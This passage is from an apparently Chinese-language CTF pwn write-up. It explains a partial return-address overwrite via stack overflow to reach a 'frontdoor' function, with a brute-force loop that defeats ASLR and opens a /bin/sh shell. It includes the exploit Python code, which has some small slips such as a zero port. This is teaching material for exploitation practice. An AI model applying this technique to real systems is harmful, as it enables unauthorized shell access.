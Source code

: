 (2) 执行栈溢出，覆盖返回地址的低两个字节为 "\x(x)9" 和 "\x01"(大端序，注意顺序)

```
#注释头
 
def StackOverflow():
    io.recvuntil('> ')
    payload_StackOverflow = 'a'*200 #padding
    payload_StackOverflow += '\x01\xa9' 
    #frontdoor的地址后三位是0x900, +1跳过push rbp，影响
    io.sendline(payload_StackOverflow)

```

这里跳过 push rbp 的原因是因为 strncpy 的关系，如果发送的是 \ x00,\xa9，那么先复制 \ x00，则会由于 strncpy 的机制提前结束复制，造成 a9 没办法复制进去，从而程序出错。(发送的由于是 fget 函数，所以会全盘接受，\x00 也会接受，不是读取函数的原因。) 而跳过 push rbp 并不影响 frontdoor 里面的函数执行，所以不会影响 getshell。

(3) 由于每次地址随机，所以地址随机成 a900 的概率为 1/16，那么就考虑用自动化来爆破实施：

```
#注释头
 
i = 0
while True:
    i += 1
    print i
    io.remote("127.0.0.1",0000)
    setlength()
    StackOverflow()
    try:
        io.recv(timeout = 1) 
        #要么崩溃要么爆破成功，若崩溃io会关闭，io.recv()会触发   EOFError
    except EOFError:
        io.close()
        continue
    else:
        sleep(0.1)
        io.sendline('/bin/sh\x00')
        sleep(0.1)
        io.interactive() #没有EOFError的话就是爆破成功，可以开shell
        break

```

▲如果直接 process 本地则没办法成功运行，需要用 socat 转发，用 127.0.0.1 本地连接才可以。

参考资料：

[https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)

[[培训] 优秀毕业生寄语：恭喜 id: 一颗金柚子获得阿里 offer《安卓高级研修班》火热招生！！！](https://zhuanlan.kanxue.com/article-15958.htm)

[#漏洞利用](forum-150-1-154.htm) [#Linux](forum-150-1-161.htm)